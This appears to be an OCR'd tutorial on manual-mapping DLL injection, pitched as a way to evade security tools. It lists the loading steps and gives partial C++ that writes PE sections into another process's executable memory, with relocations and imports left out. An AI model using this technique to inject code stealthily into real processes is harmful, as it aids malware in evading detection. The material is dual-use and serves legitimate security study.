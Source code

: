 
Manual mapping and obfuscation are advanced techniques used to inject code into a process while minimizing the chances of detection by security tools. These techniques are often used in offensive security, including penetration testing and malware development. Here’s an overview of how these techniques work and how they can be implemented.

### **1. Manual Mapping**

Manual mapping involves loading a DLL or other executable code into the memory of a process without relying on the standard Windows APIs like `LoadLibrary`. Instead, the code is manually parsed, relocated, and linked within the target process’s memory space.

#### **Steps Involved in Manual Mapping**

1. **Allocate Memory in the Target Process**: Similar to traditional injection, you need to allocate space in the target process for the DLL or shellcode.

2. **Parse the PE Header**: The Portable Executable (PE) header of the DLL contains information about how the sections of the DLL should be loaded into memory. This includes the `.text`, `.data`, and `.rdata` sections, among others.

3. **Relocate Sections**: Copy the relevant sections from the DLL into the allocated memory. If the DLL’s preferred base address is not available, you’ll need to adjust the memory addresses (relocation).

4. **Resolve Imports**: Manually resolve the DLL’s imported functions by locating their addresses in the process’s loaded modules (like `kernel32.dll`).

5. **Execute the Entry Point**: Finally, execute the DLL’s entry point (usually the `DllMain` function) to initialize the DLL.

#### **Example Code for Manual Mapping (C/C++)**

```cpp
#include <Windows.h>

bool ManualMap(HANDLE hProcess, BYTE* pSrcData) {
    // Parse the DOS header
    IMAGE_DOS_HEADER* pDosHeader = (IMAGE_DOS_HEADER*)pSrcData;
    if (pDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
        return false;

    // Parse the NT headers
    IMAGE_NT_HEADERS* pNtHeaders = (IMAGE_NT_HEADERS*)(pSrcData + pDosHeader->e_lfanew);
    if (pNtHeaders->Signature != IMAGE_NT_SIGNATURE)
        return false;

    // Allocate memory in the target process for the entire image
    LPVOID pTargetBase = VirtualAllocEx(hProcess, (LPVOID)pNtHeaders->OptionalHeader.ImageBase,
        pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!pTargetBase)
        return false;

    // Write the headers to the allocated memory
    WriteProcessMemory(hProcess, pTargetBase, pSrcData, pNtHeaders->OptionalHeader.SizeOfHeaders, nullptr);

    // Write each section to the allocated memory
    IMAGE_SECTION_HEADER* pSectionHeader = (IMAGE_SECTION_HEADER*)(pNtHeaders + 1);
    for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++) {
        WriteProcessMemory(hProcess, (LPVOID)((BYTE*)pTargetBase + pSectionHeader[i].VirtualAddress),
            pSrcData + pSectionHeader[i].PointerToRawData, pSectionHeader[i].SizeOfRawData, nullptr);
    }

    // Resolve imports and fix relocations here (omitted for brevity)
```
